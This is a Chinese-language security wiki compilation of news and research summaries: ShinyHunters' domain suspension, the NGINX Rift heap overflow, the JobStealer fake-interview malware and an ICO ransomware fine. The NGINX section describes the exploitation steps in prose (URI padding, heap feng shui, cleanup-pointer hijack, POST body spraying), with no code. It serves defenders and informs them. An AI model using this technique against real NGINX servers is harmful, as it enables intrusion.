- **Example 选择**：覆盖主要 variant（不能全是同一供应商），包括典型和边界 case
- **Ground truth 质量**：每个 example 的 expected value 必须精准 — 错误 ground truth 会让优化方向偏离
- **Holdout 验证**：用未参与优化的 example 验证精度提升
- **Iteration**：根据 holdout 结果补充新 example，再次优化

## 与现有 wiki 实体的关联

- [process-financial-documents-using-amazon-bedrock-data-automa](https://github.com/QianJinGuo/wiki/blob/main/entities/process-financial-documents-using-amazon-bedrock-data-automa.md) — 同 BDA 平台，重点是金融文档的实际提取案例
- [automate-schema-generation-for-intelligent-document-processing](https://github.com/QianJinGuo/wiki/blob/main/entities/automate-schema-generation-for-intelligent-document-processing.md) — schema 自动生成（与 blueprint 优化互补：先生成 schema，再优化 instruction）
- [amazon-bedrock-agentcore-runtime-deep-dive-and-scenario-analysis](https://github.com/QianJinGuo/wiki/blob/main/entities/amazon-bedrock-agentcore-runtime-deep-dive-and-scenario-analysis.md) — Bedrock AgentCore 平台深度（非 BDA，但同 Bedrock 体系）

## 原文链接

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/optimize-blueprint-extraction-accuracy-in-amazon-bedrock-dat.md)

## 深度分析

1. **Blueprint Instruction Optimization 是 LLM 时代 IDP 的"最后一公里"解法**
   - 核心观点：传统 IDP 依赖人工迭代 prompt（数周），BDA 将这一过程压缩到数分钟，且不需要 fine-tuning。本质是"example-driven instruction synthesis"——用 3-10 个 example + ground truth 让 LLM 自己学会在特定文档变体中的最佳提取措辞。
   - 技术要点：`inferenceType: explicit`（直接提取）vs `inferred`（需要推理）决定了优化路径；`type`（数据类型）保持不变，只有 `instruction`（自然语言指引）被 refine。
   - 实践价值：在生产环境中，文档跨供应商/跨时期的版面差异是提取精度的主要杀手。自动化 instruction refinement 直接解决了这一工程难题，使 IDP pipeline 从"人工调参维护"转向"数据驱动自适应"。

2. **Ground Truth 质量是优化效果的天花板**
   - 核心观点：文章强调"Ground truth 质量决定优化方向"，这与机器学习中"监督信号质量决定模型上限"的规律一致。错误的 expected value 会让优化方向偏离，而非收敛到正确方向。
   - 技术要点：Ground truth JSON 需要与 blueprint schema 完全对齐（每个字段都要有正确值），且需要覆盖主要变体而非单一供应商文档。
   - 实践价值：在企业部署时，需要建立 Ground Truth 标注流程（可能比优化本身更费时），这是 IDP 项目治理的关键环节。

3. **Example 选择策略决定跨版面泛化能力**
   - 核心观点：文章明确指出"不能全是同一供应商的文档"，需要覆盖"多样性分布"（diversity of production document distribution）以避免 overfitting。这与机器学习中数据集多样性的重要性一致。
   - 技术要点：理想的 example set = 主要变体（不同供应商/格式）的典型 case + 边界 case（扫描质量差、格式异常）。3-10 个 example 需在覆盖度和标注成本间平衡。
   - 实践价值：采购订单从 90%→92% 的 aggregate exact match 提升看似微小，但在高吞吐场景（百万级文档/天）意味着大量人工复审工作的减少。

4. **BDA Blueprint 优化 vs 传统 IDP 方案的范式差异**
   - 核心观点：从"人写规则"到"人给例子，模型自动改规则"是 IDP 领域的 paradigm shift。传统 OCR+Regex 需要针对每种版面写规则；LLM prompt engineering 需要人工迭代措辞；BDA Blueprint Optimization 则将这一过程自动化。
   - 技术要点：不需要 fine-tuning 意味着不需要 GPU 资源、标注数据量级显著降低、优化周期从周压缩到分钟。
   - 实践价值：使非 ML expert 的业务人员也能通过提供 examples 实现高精度提取，降低 IDP 落地门槛。

## 实践启示

1. **部署 BDA Blueprint Optimization 时，先建立 Ground Truth 标注流程再触发优化** — Ground truth 质量是效果天花板，错误的 expected value 会让优化南辕北辙。建议用 3-5 个跨供应商文档建立初始 ground truth，保留 1-2 个作为 holdout 验证集。

2. **Example 文档选择应遵循"变体覆盖优先于数量"原则** — 优先覆盖主要版面变体（不同供应商/格式/时期），而非同类型文档的多个副本。边界 case（扫描质量差、格式异常）对提升鲁棒性至关重要。

3. **将 Blueprint schema 设计为 `explicit` vs `inferred` 两层结构** — `explicit` 字段（直接提取值）优化难度低，`inferred` 字段（需要推理）需要更详细的 instruction 和更多样化的 example，是精度提升的主要难点。

4. **优化完成后务必用 holdout set 验证** — 文章示例中 aggregate exact match 仅从 90% 提升到 92%，如果不用 holdout set 验证，容易将偶然提升误判为真实效果。

5. **与 [Process Financial Documents Using Amazon Bedrock Data Automa](https://github.com/QianJinGuo/wiki/blob/main/entities/process-financial-documents-using-amazon-bedrock-data-automa.md) 联合使用** — 后者侧重金融文档的端到端提取场景，前者侧重 blueprint instruction 的自动化优化，两者构成"schema 设计 → instruction 优化 → 生产部署"的完整 IDP pipeline。

6. **Batch 场景下注意 holdout 验证循环** — 如果优化后发现精度未达预期，应根据失败 case 补充新 example（覆盖新的变体），再次触发优化，形成 data-driven 的迭代闭环。

---

## Ch12.044 Canvas LMS 攻击者 ShinyHunters 官方域名被暂停：转向暗网的运营安全转向

> 📊 Level ⭐⭐ | 8.7KB | `entities/canvas-hackers-shinyhunters-say-their-official-domain-suspen.md`

# Canvas LMS 攻击者 ShinyHunters 官方域名被暂停：转向暗网的运营安全转向

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/canvas-hackers-shinyhunters-say-their-official-domain-suspen.md)

## 摘要

臭名昭著的黑客组织 ShinyHunters 在对 Instructure 的 Canvas LMS 平台发起大规模入侵和篡改攻击后，其官方明网（clearnet）域名 `shinyhunte.rs` 被域名注册局暂停。事件发生在 2026 年 5 月 11 日（周一），域名为塞尔维亚的 `.rs` ccTLD，由塞尔维亚国家互联网域名注册局（RNIDS）管理。ShinyHunters 在暗网（.onion）站点发布公告，警告未来该明网域名可能被未知行为者重新注册用于恶意活动，并宣布将"仅通过 onion 基础设施运营"。

## 核心要点

1. **明网域名被注册局暂停**：2026 年 5 月 11 日 `shinyhunte.rs` 突然下线，ShinyHunters 在 onion 站点声明"该域名已被注册局暂停，我们不再运营和拥有"。
2. **暂停发生在 Canvas LMS 攻击之后**：Hackread 此前报道 ShinyHunters 对全球数百所大学使用的 Canvas LMS 发起篡改攻击，被攻击的 Canvas 门户显示 ShinyHunters 的声明和勒索威胁。
3. **明网仅用于公告与运营更新**：该域名并未承载数据泄露内容，ShinyHunters 此前对 Salesforce、Anodot 等的数据泄露均托管在独立的 Tor onion 泄露站点。
4. **`.rs` 域名为塞尔维亚 ccTLD**：缩写来自 "Republika Srbija"（塞尔维亚共和国），由 RNIDS 管理。
5. **完整转向 onion 基础设施**：ShinyHunters 宣布未来所有公告与泄露活动将通过 onion 平台进行，并警告"任何声称是我们的人都是冒充"。
6. **FBI 参与说法无公开证据**：目前没有公开证据证实域名被 FBI 或其他执法机构正式查封，暂停是注册局还是应外国机构请求仍不清楚。

## 深度分析

### Canvas LMS 攻击背景

Canvas 是 Instructure 公司开发的、被全球高校和教育机构广泛采用的学习管理系统（LMS）。ShinyHunters 被发现对多个大学的 Canvas 门户发起篡改攻击，被攻击页面显示该组织的声明以及"如不满足赎金要求则泄露数据"的威胁。

攻击影响全球数百所大学，造成大量课程中断，是教育 SaaS 供应链遭受攻击的典型案例。教育机构数据通常包含未成年学生信息（PII），敏感性极高，使此次事件成为后续执法行动和注册局暂停域名的直接诱因。

### 域名暂停机制分析

`.rs` 域名为塞尔维亚国家级 ccTLD，由 RNIDS（塞尔维亚国家互联网域名注册局）管理。

域名暂停在涉及恶意软件分发、网络钓鱼、勒索软件或网络犯罪行动的情况下并不罕见。此类操作通常需要以下之一：

- **滥用投诉（abuse complaints）**
- **支撑性证据**
- **来自安全组织、托管商、CERT 团队或执法机构的请求**

但截至报道时，**没有公开证据证实域名被 FBI 或其他执法机构正式查封**，塞尔维亚当局或注册局是独立行动还是应外国机构请求仍不明确。

### 暗网基础设施的优势

ShinyHunters 完全弃用明网、转向 Tor onion 服务是一次明确的运营安全（OPSEC）升级，原因如下：

- **onion 域名不依赖传统 DNS 系统**：onion 服务运行在 Tor 网络上，由注册局和 ICANN 关联供应商之外的机制寻址，传统的域名暂停、查封、扣押手段对其无效。
- **抗审查性更强**：onion 服务难以被国家级防火墙或注册局强制下线，更适合长期运营。
- **身份暴露面更小**：用户访问 onion 服务无需暴露真实 IP，配合 HTTPS 验证机制可降低中间人攻击风险。
- **可恢复性更强**：即便明网被反复暂停，onion 地址不可被"暂停"，只要私钥在手即可继续运营。

### 网络犯罪组织的典型响应模式

失去明网域名通常只造成短期运营中断，犯罪组织通常会通过以下方式快速恢复：

- 在不同顶级域下注册替代域名
- 将活动迁移到去中心化基础设施（如 IPFS）
- 完全转向 onion / I2P / 分布式网络

但 ShinyHunters 的反应更为激进——**完全弃用明网**——这反映在 Canvas LMS 攻击引发的公众关注度飙升后，该组织对运营暴露的警觉性显著提高。

### 域名重用风险

ShinyHunters 在公告中特别警告：暂停的域名未来可能被未知行为者重新注册用于恶意活动，建议受害者不要信任该域名上出现的任何声明。

这一警告揭示了**域名重用攻击（domain squatting for phishing）**的常见模式：犯罪组织暂停或弃用某个有"品牌效应"的明网域名后，第三方可能注册并重建相似站点，对受害者或粉丝进行冒充和钓鱼攻击。

## 实践启示

1. **域名监控应作为情报来源**：企业应将自家品牌、CEO 名字、产品名等关键词的**新注册域名**纳入监控范围，及时发现潜在的钓鱼或冒充站点。
2. **执法机构域外行动面临挑战**：域名注册局通常只对本国司法管辖范围内的滥用投诉响应，跨境执法需要通过 MLAT（司法协助条约）或 INTERPOL 等机制。本次暂停是否由塞尔维亚独立行动仍不明确，反映跨境执法时效性受限。
3. **Tor onion 服务在抗审查场景下的两面性**：对合法用户（如举报人、记者、隐私敏感用户），onion 提供强抗审查能力；对犯罪组织，同样使其难以被下线。这要求执法和安全研究机构在技术层面持续投资 onion 服务指纹识别、流量关联分析能力。
4. **教育 SaaS 是关键攻击面**：Canvas LMS 事件表明 SaaS 化教育基础设施是高价值目标，攻击单个供应商可同时影响数百所机构。学校应优先评估 LMS 供应商的安全态势、事件响应能力以及数据隔离策略。
5. **犯罪组织的"品牌声明"是攻击向量**：ShinyHunters 警告"任何声称是我们的人都是冒充"本身就是一种品牌声明，攻击者可借此反向利用——模仿该警告建立伪造的"安全告警"站点进行二次钓鱼。安全意识培训需包含对犯罪组织品牌声明的辨识教育。

## 关联实体

- [Canvas 漏洞中断全国学校](https://github.com/QianJinGuo/wiki/blob/main/entities/canvas-breach-disrupts-schools-colleges-nationwide.md) — Canvas LMS 攻击的更早报道
- [ShinyHunters 7-Eleven 数据泄露](https://github.com/QianJinGuo/wiki/blob/main/entities/shinyhunters-7-eleven-data-breach.md) — ShinyHunters 的另一起高调攻击
- [ICO 对 South Staffordshire 处以 96.3 万英镑罚款](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/5237875.md) — 同期另一重大勒索软件事件，体现勒索软件生态多样性
- [OpenClaw 完全指南](https://github.com/QianJinGuo/wiki/blob/main/entities/openclaw-完全指南这可能是全网最新最全的系统化教程了32w字建议收藏.md) — Agent 工具在攻防两面的双刃剑属性
- [Agent 记忆系统的工程实践](https://github.com/QianJinGuo/wiki/blob/main/entities/存之有序治之有矩agent-记忆系统的工程实践与演进.md) — 对 Agent 上下文与状态管理的进一步讨论

---

## Ch12.045 NGINX Rift: Achieving NGINX Remote Code Execution via an 18-Year-Old Vulnerability | depthfirst

> 📊 Level ⭐⭐ | 8.7KB | `entities/nginx-rift-achieving-nginx-rce-via-an-18-year-old-vulnerability.md`

# NGINX Rift: Achieving NGINX Remote Code Execution via an 18-Year-Old Vulnerability | depthfirst

Published Time: 2026-05-13T12:00:00.000Z
**TLDR: We used depthfirst's system to analyze the NGINX source code, and it autonomously discovered 4 remote memory corruption issues, including a critical heap buffer overflow introduced in 2008. We further investigated the exploitability of the issues, and developed a working proof of concept demonstrating RCE with ASLR off. If you use _rewrite_ and _set_ directives in your NGINX configuration, you're at risk.**
In mid-April, I was chatting with a colleague about the most vulnerable spot in our infrastructure. Since most of our services live entirely inside a private network, our app platform is the only exposed surface. He joked that achieving remote code execution on our web service would mean hacking into depthfirst completely. Hacking the web service itself is not my usual focus. However, the idea of hacking the underlying web server intrigued me, which directed my attention to NGINX.
NGINX is the most popular web server today, powering nearly a third of all [websites globally](https://w3techs.com/technologies/overview/web_server%5D). Its high performance architecture makes it the undisputed leader for handling massive volumes of web traffic. From serving static content to acting as an essential reverse proxy, it sits at the critical edge of the modern internet. A single vulnerability in this core infrastructure can therefore expose countless backend systems to severe risks.
Internally, we have an autonomous system that specializes in analyzing low level software. Analyzing NGINX simply required a single click to onboard the repository and trigger the analysis. After six hours of scanning, the system identified 5 security issues including a high severity finding, which is a heap overflow issue when handling NGINX `rewrite` directive.

## 深度分析

**1. 18 年静默的内存损坏：经典状态机的两面-pass 设计缺陷**
CVE-2026-42945 的本质是一个精妙的状态机缺陷：NGINX 脚本引擎采用"两次-pass"设计——第一次计算所需内存长度，第二次执行实际拷贝。 关键问题出在 `is_args` 标志位上：当 `rewrite` 指令的替换字符串包含问号时，`ngx_http_script_start_args_code` 会将 `e->is_args = 1` 永久设置在主引擎上。但在计算长度时，`ngx_http_script_complex_value_code` 创建了一个全新零初始化的子引擎 `le`， 其 `le.is_args = 0`。长度计算因此走向未转义的分支，而拷贝时却使用主引擎（`is_args=1`）进入了转义分支——这个状态不一致在 2008 年就存在，18 年来无人发现。

**2. 高度可控的堆溢出：溢出大小由 URI 内容精确控制**
与传统的堆溢出相比，CVE-2026-42945 提供了极高的可利用性：溢出大小完全由攻击者提供的 URI 中可转义字符数量决定。 通过在请求 URI 中填充加号（`%2B`），每个字符都会被 `ngx_escape_uri` 扩展为三个字节，产生可控的缓冲区溢出。这种"精确制导"式的溢出大小控制大大降低了利用难度——攻击者只需精心构造 URI 载荷即可，无需依赖复杂的堆布局操作。

**3. 多进程架构的意外助攻：确定性堆布局与跨请求 Heap Feng Shui**
NGINX 的多进程模型（worker fork 自 master）在安全性上本是一项优势（隔离性），但对利用却构成了意外的帮助：每次 worker 重启后的堆布局完全一致。 更精妙的是跨请求 heap feng shui 技术：攻击者通过控制连接时序，让 victim pool 精确相邻于 overflow pool，在触发 overflow 后立即关闭 victim 连接， 从而在 NGINX 尝试使用损坏的 pool 字段之前就触发 `ngx_destroy_pool`，直接遍历 `pool->cleanup` 链表执行任意函数指针。

**4. 自主代码审计的成熟度标志：从"发现"到"可利用性证明"的全链路自动化**
depthfirst 的系统在 6 小时内完成 NGINX 代码分析，报告 5 个漏洞，其中 4 个被确认，并进一步自动生成 RCE PoC。 这标志着 AI 辅助代码审计已达到实用化阶段：过去需要资深安全研究员数周才能完成的漏洞挖掘和利用开发，如今可以在数小时内由自动化系统完成。F5 随后在同一天发布安全公告的事实 也表明厂商对这类 AI 发现的问题响应机制已相当成熟。

## 实践启示

1. **立即审查 NGINX 配置中的 rewrite + set 组合**
   CVE-2026-42945 影响 NGINX 0.6.27 至 1.30.0 的所有版本（以及 F5 WAF、NGINX App Protect 等衍生版本），任何包含 `rewrite` 指令（替换字符串含 `?`）紧接着 `set` 指令的配置都存在风险。建议使用 `nginx -T` 全文搜索现有配置，并优先在测试环境验证。

2. **无法立即升级时的临时缓解措施**
   如果无法立即升级 NGINX，可在 `rewrite` 指令后避免使用 `set` 指令引用捕获组，或将 `set` 放在 `if` 条件块内以改变执行上下文。 更彻底的做法是审查所有 `set` 指令，确认没有引用 `rewrite` 正则表达式的捕获组。

3. **将 NGINX 纳入常态化漏洞扫描，且需覆盖配置层**
   传统 SCA（软件成分分析）仅覆盖已知 CVE，而 NGINX 的历史漏洞表明配置指令组合也可能触发内存损坏。安全团队应建立 NGINX 配置审计机制，在每次配置变更后自动检测潜在的 dangerous directive 组合（如 `rewrite` + `set` + `$1`）。

4. **关注自主代码审计工具在 C/C++ 代码库中的应用**
   depthfirst 的案例表明，AI 驱动的静态分析已能在 6 小时内从零发现 NGINX 级别的复杂漏洞。对于拥有大量 C/C++ 遗留代码的组织，引入这类工具可能是发现内部积累了十几年的"沉睡漏洞"的最经济路径。

5. **RCE 利用链中 POST body spraying 技术的防御**
   攻击者使用 POST 请求体喷射伪造 `ngx_pool_cleanup_s` 结构以绕过 URI 字符集限制。 虽然完全阻止此向量需要修复底层漏洞，但可通过限制单 IP 的并发连接数、监控异常大的 POST 请求体大小等方式增加利用难度。

## 相关实体
- [Nginx Rift Achieving Nginx Remote Code Execution V](https://github.com/QianJinGuo/wiki/blob/main/entities/nginx-rift-achieving-nginx-remote-code-execution-v.md)
- [Trackingtamperedchefclustersviacertificateandcodereuse](https://github.com/QianJinGuo/wiki/blob/main/entities/trackingtamperedchefclustersviacertificateandcodereuse.md)
- [Tracking Tampered Chef Clusters Aef374](https://github.com/QianJinGuo/wiki/blob/main/entities/tracking-tampered-chef-clusters-aef374.md)
- [Npm Supply Chain Compromise Postmortem](https://github.com/QianJinGuo/wiki/blob/main/entities/npm-supply-chain-compromise-postmortem.md)
- [Cogalpha Acl2026 Alpha Mining](https://github.com/QianJinGuo/wiki/blob/main/entities/cogalpha-acl2026-alpha-mining.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/nginx-rift-achieving-nginx-rce-via-an-18-year-old-vulnerability.md)

---

## Ch12.046 Fake Job Interview Apps Drop JobStealer Malware on Windows and macOS

> 📊 Level ⭐⭐ | 8.6KB | `entities/fake-job-interview-apps-drop-jobstealer-malware-on-windows-and-macos.md`

## 核心要点
- 攻击者以虚假招聘面试为诱饵，在 macOS 和 Windows 上部署 JobStealer 木马，窃取加密货币钱包、浏览器凭据和敏感文件
- 恶意程序伪装成视频会议应用（MeetLab、Meetix、Juseo、Carolla），甚至冒用 Cisco Webex 等合法品牌降低受害者警惕
- macOS 版本通过 Terminal 命令或 DMG 安装包诱导用户手动执行，绕过系统安全警告
- 恶意站点还提供 Linux、iOS、Android 下载专区，虽然尚未完全部署，但表明攻击面在扩大
- 攻击者将收集的数据压缩为 ZIP 档案上传至 C2 服务器，并映射至多项 MITRE ATT&CK 技术

## 事件背景
2026 年 5 月中旬，安全研究机构 Dr.Web 发布报告，披露一起持续发酵的恶意软件攻击活动。攻击者以"在线面试"为名义，向受害者发送招聘邀请，并引导其下载所谓的"视频会议工具"。这些网站制作精良，包含完整品牌标识、社交媒体账号和 Telegram 频道，看起来像正规服务 。
攻击链的起点是一个看似正常的求职流程：受害者收到一份待遇优厚的岗位邀请，被要求安装专用会议软件以参加视频面试 。然而，受害者点击下载的不是视频会议客户端，而是一个包含木马的恶意程序 。
已发现的恶意站点包括 `Meetlab.io`、`Meetix.app`、`Carolla.app` 和 `Cloudproxy.link` 。部分站点甚至冒用了 Cisco Webex 的品牌元素，以进一步降低受害者的戒心 。

## 技术分析
### macOS 攻击链
在 macOS 系统上，攻击者采用两种分发策略。第一种要求受害者将 Bash 命令粘贴到 Terminal 执行；第二种提供一个 DMG 安装包，其中包含伪造的安装说明 。两种方式的核心逻辑相同：诱导用户手动启动木马程序，从而绕过 macOS 的安全防护机制 。
恶意程序被检测为 `Mac.PWS.JobStealer.1`，同时支持 Intel 和 Apple Silicon 架构 。Dr.Web 指出，新版本已添加更强混淆并支持 arm64，这说明攻击者在持续迭代，以解决早期变种在新型 Mac 硬件上无法运行的问题 。
程序运行后，会显示一个伪造的错误对话框，声称需要输入 macOS 账户密码才能继续 。获得密码后，JobStealer 开始大规模收集系统数据 。

### 窃取目标
JobStealer 的首要目标是加密货币资产 。它扫描 Chromium 系浏览器（Chrome、Brave、Opera、Edge、Vivaldi、Arc、CocCoc），查找约 300 种加密钱包扩展程序 。此外，还提取浏览器 Cookie、已保存密码、自动填充的支付数据、Telegram 会话文件、Apple Notes 中的笔记，以及硬件钱包软件痕迹（如 Ledger Live 和 Trezor Suite） 。
数据收集完毕后，恶意程序将所有文件压缩为 ZIP 档案，上传至攻击者控制的 C2 服务器 。

### Windows 及多平台扩展
Windows 版本与 macOS 版本采用相同的攻击手法，专注于窃取浏览器数据、加密钱包和用户凭据 。更值得警惕的是，研究人员在部分恶意站点上发现了 Linux、iOS 和 Android 的下载专区，虽然这些版本尚未完全部署，但表明攻击者的目标平台范围正在扩大 。

### MITRE ATT&CK 映射
Dr.Web 将本次活动映射至多项 MITRE ATT&CK 技术，包括：通过复制粘贴执行恶意命令（T1059）、从浏览器和 Keychain 窃取凭据（T1005）、自动化数据收集（T1119），以及通过 Web 服务外传数据（T1041） 。

## 深度分析
### 社会工程学模式的进化
这起攻击标志着社会工程学战术正在向远程办公文化深度适配 。传统的网络钓鱼依赖电子邮件或恶意附件，而现在攻击者直接利用在线面试这一高频场景，将恶意软件包装成正常的职业沟通工具 。
对于正在求职的技术人群，特别是对 macOS 环境安全性有较强信任感的开发者群体，这种攻击方式的成功率更高 。攻击者选择冒充 Cisco Webex 这类企业级工具，也是看中了目标用户对"正规企业流程"的信任心理 。

### macOS 安全模型的局限
macOS 长期以来以"不需要管理员权限"作为安全卖点，但这类攻击证明了用户交互本身可以成为绕过系统防护的途径 。通过诱导用户在 Terminal 中执行命令，攻击者将决策权从操作系统转移到了毫无戒心的受害者手中 。这是一个经典的"曲线绕过"策略——不正面挑战安全机制，而是利用用户的认知盲区 。

### 跨平台趋势的威胁升级
攻击者已在 Linux、iOS、Android 端点预留了下载入口，表明这是一个以多平台为目标的恶意软件家族 。虽然截至报告时这些版本尚未完全部署，但其意图已非常明确：一旦某个平台的用户基数足够大，攻击者随时可以激活对应的攻击模块 。

### 加密货币窃取的经济动机
JobStealer 对硬件钱包软件（Ledger Live、Trezor Suite）的专项扫描表明，经济动机是本次攻击的核心驱动力 。相比普通凭据倒卖，窃取加密货币能在短时间内产生直接经济回报，且追踪难度更高 。这一获利模式的确立，意味着类似攻击将持续出现并不断进化 。

## 实践启示
**防范 Terminal 命令诱导**：任何要求将命令粘贴到 Terminal 的操作都应该引起高度警惕。正式的面试流程绝不会要求候选人绕过操作系统安全机制。如果对方坚持，这是明确的红色旗帜。
**只从官方渠道获取会议软件**：下载视频会议工具时，应直接访问供应商官网，而非通过邮件或聊天中的链接进入。如果需要使用 Cisco Webex、Zoom 等平台，应从其官方网站下载，而非第三方站点的"定制版"。
**对加密货币用户的安全建议**：浏览器中安装加密钱包扩展的用户应提高警惕，特别是在进行任何与工作申请相关的操作时。建议使用硬件钱包离线签发交易，不要在浏览器中长期存储大额资产对应的种子短语。
**密码管理器与 MFA 的必要性**：即使恶意程序成功提取了浏览器存储的密码，如果账户开启了多因素认证（MFA），攻击者仍无法直接登录。密码管理器的使用也能有效降低凭据被一次性窃取的风险。
## 相关实体
- [Shub Reaper Macos Stealer Attack Chain](https://github.com/QianJinGuo/wiki/blob/main/entities/shub-reaper-macos-stealer-attack-chain.md)
- [Howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve 2026 310](https://github.com/QianJinGuo/wiki/blob/main/entities/howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve-2026-310.md)
- [Announcing Genkit Middleware Intercept Extend And Harden Your Agentic Apps](https://github.com/QianJinGuo/wiki/blob/main/entities/announcing-genkit-middleware-intercept-extend-and-harden-your-agentic-apps.md)
- [Cybersecurityreach Revoke Token Wipe Computer](https://github.com/QianJinGuo/wiki/blob/main/entities/cybersecurityreach-revoke-token-wipe-computer.md)
- [Trackingtamperedchefclustersviacertificateandcodereuse](https://github.com/QianJinGuo/wiki/blob/main/entities/trackingtamperedchefclustersviacertificateandcodereuse.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/fake-job-interview-apps-drop-jobstealer-malware-on-windows-and-macos.md)

---

## Ch12.047 ICO 对 South Staffordshire 处以 96.3 万英镑罚款：2022 年 Cl0p 勒索软件攻击暴露的安全失败

> 📊 Level ⭐⭐ | 8.6KB | `entities/5237875.md`

# ICO 对 South Staffordshire 处以 96.3 万英镑罚款：2022 年 Cl0p 勒索软件攻击暴露的安全失败

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/5237875.md)

## 摘要

2026 年 5 月 11 日，英国数据保护监管机构 ICO 对自来水公司 South Staffordshire 的母公司 South Staffordshire Plc 处以 963,900 英镑（约合 130 万美元）的罚款，原因是 2022 年 7 月披露的 Cl0p 勒索软件攻击暴露了"该公司数据安全方法的重大失败"。攻击实际入侵发生在 2020 年 9 月，但在长达近两年时间里都未被发现，导致 633,887 人的个人数据被泄露，包括用户名、密码、银行账号、排序码，以及优先服务登记客户的残疾推断信息和员工的国民保险号码。该公司数据总量超过 4TB，最终被泄露到网上。

## 核心要点

1. **入侵潜伏近两年**：Cl0p 勒索团伙于 2020 年 9 月初次入侵，直到 2022 年 7 月工程师响应性能问题时才被发现，攻击者利用初始立足点后缺乏控制被提权为管理员。
2. **监控覆盖率仅 5%**：ICO 调查发现 South Staffordshire 的 IT 环境中仅有 5% 处于监控之下，监测和日志记录严重不足是延迟发现的关键原因之一。
3. **运行不受支持的软件**：包括 Windows Server 2003 在内的过时系统仍在线运行，同时关键系统存在已知漏洞未修补，且公司未定期运行内部或外部安全扫描。
4. **受影响人数 633,887 人**：包括在线服务的用户名/密码、银行账号和排序码；优先服务登记用户的残疾情况可能被推断；HR 系统中的员工国民保险号码也被窃取。
5. **数据总量超 4TB**：被盗公司数据最终被泄露到网上，文件大小超过 4TB，涉及客户与员工数据，当时 South Staffordshire 共处理约 185 万人的数据。
6. **罚款金额减让 40%**：ICO 在 2025 年 12 月宣布拟罚款意向，最终因公司承认调查结果并早期认错，将罚款减少 40%。

## 深度分析

### 事件背景与攻击链路

South Staffordshire Plc 是一家关键国家基础设施（CNI）运营商，旗下 South Staffordshire Water 为约 185 万人提供自来水服务。Cl0p 勒索团伙在 2020 年 9 月初次入侵该公司网络后，利用其有限的网络控制措施将权限升级至管理员级别，并在长达近两年的时间里持续潜伏。

攻击直到 2022 年 7 月才被察觉，原因并非主动威胁狩猎，而是工程师在排查系统性能问题时发现了异常信号。这种"被动发现"模式正是 ICO 强烈批评的——监管机构明确指出"等待性能问题或勒索通知才发现违规行为是不可接受的"（"Waiting for performance issues or a ransom note to discover a breach is not acceptable. Proactive security is a legal requirement, not an optional extra."）。

### 三大关键技术失败

ICO 在调查中明确列出导致此次入侵和延迟发现的关键失败：

- **有限的访问控制**：攻击者获得初始立足点后能够提权为管理员，说明网络分段、最小权限原则、权限审计均存在严重缺失。
- **监控与日志不足**：仅 5% 的 IT 环境被监控意味着绝大部分网络活动没有可见性，对威胁检测与响应（TDIR）体系而言几乎是盲飞。
- **脆弱性管理失能**：运行 Windows Server 2003（早已停止支持）以及未修补关键系统的已知漏洞，加上缺乏定期内/外部扫描，构成经典的脆弱性管理失效模式。

### 影响范围与数据敏感性

事件最终影响 633,887 人，远低于 South Staffordshire 当时持有的 185 万人总量，但泄露数据的**敏感性极高**：

- **在线服务凭证**：用户名、密码哈希，攻击者可借此进行凭证填充（credential stuffing）攻击其他平台。
- **金融数据**：银行账号和排序码构成直接欺诈风险。
- **特殊类别数据**：有限数量的优先服务登记（Priority Services Register）客户的残疾信息可被推断，触发 GDPR 第 9 条特殊类别个人数据保护要求。
- **员工数据**：包括国民保险号码（NI Number），属英国税务与社会保障核心识别符。

### 监管立场与 CNI 含义

ICO 监管监督临时执行董事 Ian Hulme 在声明中强调了**信任不对等**的本质："客户无法选择为他们提供自来水的公司——他们必须分享个人信息并将对提供商的信任交付出去"（"Customers do not have to choice over which water company serves them – they are required to share their personal information and place their trust in that provider"）。这一表态将 CNI 运营商置于更高的合规基线之上。

ICO 同时明确表态："South Staffordshire 未能采取的这些步骤，是已建立的、被广泛理解且有效的保护计算机网络的控制措施。ICO 期望所有组织——尤其是作为关键国家基础设施一部分、处理大量个人信息的组织——都应具备这些控制"（"The steps that South Staffordshire failed to take are established, widely understood and effective controls to protect computer networks. The ICO expects all organizations – and particularly those handling large volumes of personal information as part of critical national infrastructure – to have these in place."）。

### 公司回应

South Staffordshire Plc 集团 CEO Charley Maher 表示接受 ICO 决定，并对给客户和员工带来的担忧表示歉意。公司声称已"立即采取行动遏制事件、支持受影响者并降低复发风险"，并"在网络安全弹性、治理和监控方面进行了重大投资"。

## 实践启示

1. **威胁可见性是 CNI 安全底线**：5% 的监控覆盖率几乎等同于完全无监控，任何依赖"被动发现"的安全策略都不应被接受。企业应建立基于攻击面管理（ASM）、EDR/NDR 部署、日志聚合（SIEM）的全栈可见性体系，参考 [Agent 安全架构](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-security-architecture.md) 与 [Agent 可观测性](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-observability.md) 中强调的"持续验证"原则。
2. **脆弱性管理必须形成闭环**：运行 Windows Server 2003 这类已停止支持的软件，是典型的攻击面管理失败。企业应建立"资产清单 → 漏洞扫描 → 风险评分 → 修复 SLA → 验证"的闭环，并优先处理面向互联网的关键系统。
3. **关键基础设施的合规基线更高**：作为 CNI，自来水、电力、交通、医疗等行业面临更严的监管期望。GDPR 的"适当技术措施"在 CNI 场景下应被解读为行业领先的实践（state-of-the-art），而非平均合规水平。
4. **检测时间（MTTD）是核心 KPI**：从 2020 年 9 月入侵到 2022 年 7 月发现，攻击者潜伏近两年。即便没有主动威胁狩猎能力，EDR、网络流量分析和去中心化告警关联也能将 MTTD 缩短至天级而非年级。
5. **主动安全是法律要求而非可选项**：ICO 明确"主动安全是法律要求，不是可选的额外功能"，这与企业常见的"等出问题再补救"心态形成直接冲突。安全预算应优先投入预防和检测，而非过度依赖事后响应。

## 关联实体

- [Canvas LMS 攻击事件](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/canvas-hackers-shinyhunters-say-their-official-domain-suspen.md) — 同一时期教育领域 SaaS 被攻击，体现关键供应链攻击常态化
- [Agent 安全架构](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-security-architecture.md) — 零信任与持续验证原则在 AI Agent 时代的延伸
